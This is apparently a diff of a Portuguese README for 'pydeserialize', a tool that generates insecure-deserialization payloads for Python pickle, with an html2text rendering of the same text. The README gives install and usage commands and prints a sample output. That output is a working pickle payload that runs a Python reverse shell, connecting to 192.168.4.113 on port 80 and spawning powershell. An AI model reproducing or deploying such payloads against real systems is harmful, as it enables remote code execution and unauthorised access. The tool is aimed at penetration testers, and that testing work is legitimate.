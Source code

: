 ```diff
+```
+Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
+```yaml
+           _                 _     _ _         
+ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
+| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
+|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
+|_| |___|  
+     v0.0.8 - @joaoviictorti
+
+options:
+  -h, --help            show this help message and exit
+  -ip IP                Insert ip
+  -p PORT               Insert port
+  -e {b64,shell,urlencode,hex} Insert encoding
+  -o {Windows,Linux}    Insert operational system
+```
+
+# Instalação
+
+pydeserialize requer **python3** e para baixá-lo só usar:
+
+```sh
+pip3 install pydeserialize
+```
+
+# Executando pydeserialize
+
+```console
+pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
+
+           _                 _     _ _         
+ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
+| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
+|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
+|_| |___|  
+     v0.0.8 - @joaoviictorti
+
+b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
+```
+
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -11,25 +11,25 @@
 pydeserialize Ã© construÃ­do para fazer apenas uma coisa - gera payloads de
 desserializaÃ§Ã£o insegura + encodes e faz isso muito bem. Projetei o
 `pydeserialize` para cumprir todas as responsabilidades para gera payloads e
 encodes, mantive um modelo consistentemente passivo para tornÃ¡-lo Ãºtil para
 testadores de penetraÃ§Ã£o. # CaracterÃ­sticas - Gera payloads para explora
 vulnerabilidades de desserializaÃ§Ã£o insegura em python # Forma de
 utilizaÃ§Ã£o ```sh pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
-pydeserialize -ip 192.168.4.113 -e b64-p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
+pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
 para a ferramenta. Aqui estÃ£o todos os switches que ele suporta: ```yaml _ _ _
 _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_| _| |
-.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.7
```